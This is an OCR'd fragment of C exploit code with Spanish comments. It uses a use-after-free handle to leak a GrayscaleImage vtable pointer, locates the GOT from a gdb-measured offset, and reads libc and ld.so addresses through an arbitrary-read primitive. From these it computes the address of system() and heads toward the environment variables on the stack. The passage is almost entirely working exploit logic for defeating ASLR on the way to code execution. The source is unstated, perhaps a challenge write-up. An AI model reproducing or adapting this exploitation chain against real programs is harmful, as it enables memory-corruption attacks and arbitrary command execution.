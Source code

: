 ```c
  printf("[*] Ejecutando leak inicial...\n");

  int uaf_handle = perform_initial_leak();

  /* Obtenemos la dirección de la vtable real de GrayscaleImage.
   *
   */
  uint64_t vptr_GrayscaleImage = ((uint64_t*)response_buffer)[4];

  /* Obtenemos la dirección base de la GOT. Con gdb determinamos que
   * se encuentra 0x2b0 bytes por encima de la vtable.
   *
   */
  uint64_t got_base = vptr_GrayscaleImage + 0x2b0;

  printf("[*] ... vptr_GrayscaleImage:\n");
  printf("[-] ... 0x%lx\n", vptr_GrayscaleImage);
  printf("[-] \n");

  printf("[*] ... got_base:\n");
  printf("[-] ... 0x%lx\n", got_base);
  printf("[-] \n");

  /* Leemos las direcciones de __libc_start_main y de __libc_stack_end,
   * la primera en libc.so.6, la segunda en ld-linux-x86-64.so.2,
   * ambas oportunamente contiguas en la GOT.
   *
   */
  printf("[*] Leyendo GOT...\n");

  read_from(got_base + 0x188, 16, vptr_GrayscaleImage, uaf_handle);
    
  /* Extraemos las direcciones relevantes del dump y calculamos
   * la dirección de system, la cuál estaremos usando luego.
   *
   */
  uint64_t addr_libc_start_main = ((uint64_t*)response_buffer)[0];
  uint64_t addr_libc_stack_end = ((uint64_t*)response_buffer)[1];

  uint64_t addr_system = addr_libc_start_main + 0x2d990;

  printf("[*] ... addr_libc_start_main:\n");
  printf("[-] ... 0x%lx\n", addr_libc_start_main);
  printf("[-] \n");

  printf("[*] ... addr_system:\n");
  printf("[-] ... 0x%lx\n", addr_system);
  printf("[-] \n");

  printf("[*] ... addr_libc_stack_end:\n");
  printf("[-] ... 0x%lx\n", addr_libc_stack_end);
  printf("[-] \n");
  
  /* Ejecutamos algunas lecturas adicionales para obtener las direcciones
   * de __environ y eventualmente la del inicio de las variables de entorno
   * en el safe stack.
   *
   */
  printf("[*] Leyendo *addr_libc_stack_end...\n");

  read_from(addr_libc_stack_end, 8, vptr_GrayscaleImage, uaf_handle);
    
  addr_libc_stack_end = ((uint64_t*)response_buffer)[0];
```